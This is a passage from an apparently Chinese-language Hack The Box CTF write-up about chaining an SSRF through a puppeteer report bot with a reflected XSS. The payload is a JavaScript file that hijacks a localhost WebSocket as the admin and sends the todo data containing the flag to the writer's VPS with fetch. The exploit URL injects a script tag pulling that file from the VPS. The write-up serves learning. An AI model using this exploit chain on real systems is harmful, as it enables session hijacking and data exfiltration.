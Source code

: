 （又是puppeteer）,好像最近htb挺多puppeteer的题的。那思路应该往ssrf方向靠了。

在`routes/index.js`里可以看到`router.post('/report', doReportHandler);`

意思就是，我们直接`POST /report`，可以让服务端的puppeteer访问任意网页造成SSRF。

## 0x03 XSS

很容易想到刚刚的应用二，应该是这个html测试服务，这个html测试服务，`http://178.62.8.249:31022/index.php?html=`
html参数传的值会显示到页面，并且不过滤html标签，那xss就来啦。

![3.png](3.png)

## 0x04 漏洞利用

那么怎么利用这两个洞呢，先看flag放在哪，应用一里有一个websocket服务，负责添加和获取todo，里面有一段
```
                    if (userId === 1) {
                        quote = `A wise man once said, "the flag is ${process.env.FLAG}".`;
                    } else {
                        quote = quotes[Math.floor(Math.random() * quotes.length)];
                    }
```

这个`userId===1`是初始化数据库的时候自动建的admin账户，刚好`report.js`里在访问任意界面前都会登录一下这个admin账户，
那思路就很明确了，访问一个用应用二构造的恶意界面，把flag发给我们。

如果是正常的http请求，可能会因为跨域问题没办法拿到数据，但是websocket是不考虑跨域的，可以直接拿到数据。

我们直接在vps上构造一个恶意js

```js
const ws = new WebSocket(`ws://127.0.0.1/ws`);
ws.onopen = () => {
    ws.send(JSON.stringify({ action: 'add' }))
    ws.send(JSON.stringify({ action: 'get' }))
}

ws.onmessage = async (msg) => {
    const data = JSON.parse(msg.data);
    if (data.success) {
        if (data.action === 'get') {
            fetch("http://myvps/" + JSON.stringify(data.tasks ))
        }
        else if (data.action === 'add') {
        }
    }
}
```

然后`POST /report`传入
```json
{
    "url": "http://127.0.0.1:8080/index.php?html=%3Cscript%20src=%22http://myvps/bad.js%22%3E%3C/script%3E"
}
```

